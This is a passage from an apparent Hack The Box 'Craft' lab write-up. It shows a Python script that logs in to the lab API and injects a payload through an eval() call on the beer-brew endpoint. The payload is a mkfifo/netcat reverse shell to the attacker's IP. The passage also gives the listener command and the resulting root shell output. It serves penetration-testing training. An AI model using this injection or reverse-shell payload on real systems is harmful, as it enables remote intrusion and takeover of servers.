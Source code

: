 ## RCE

Now with credentials, knowing we could take advantage of the `eval()` and remembering the curl Denish was using in his issue + the API, we can make an injection via a POST to `/api/brew/`.
I wrote a small script to authenticate and post that does the injection (tbh, I missed I could just use `test.py` realized about it late). grabbing the token and using it to authenticate.

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# cat craft_inject.py 
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import requests
import re
import json

url = "https://api.craft.htb/api/auth/login"
login=('dinesh', '4aUh0A8PbVJxgd')
r = requests.get(url, auth=login, allow_redirects=False, verify=False)
token = json.loads(r.text)['token']
print(token)
url = "https://api.craft.htb/api/brew/"
headers = {'X-Craft-API-Token':token, 'Content-Type': 'application/json'}
inject = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f")"""
payload = {"name":"foo","brewer":"foo", "style":"foo", "abv":inject}
payload = json.dumps(payload)
attack = requests.post(url, verify=False, headers=headers, allow_redirects=False, data=payload)
```
In one tab run nc listening on port 4444 with `nc -lvp 4444`, and run in other tab we run the script to get the reverse:
```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ./craft_inject.py 
```

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from api.craft.htb [10.10.10.110] 41887
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

There is something weird, we are already root? we check if there is the `root.txt` in it's home and not, is not:

```console
/opt/app # cd /root
/root # ls -la
total 12
drwx------    1 root     root          4096 Feb  9  2019 .
drwxr-xr-x    1 root     root          4096 Feb 10  2019 ..
drwx------    1 root     root          4096 Feb  9  2019 .cache
/root # 
```
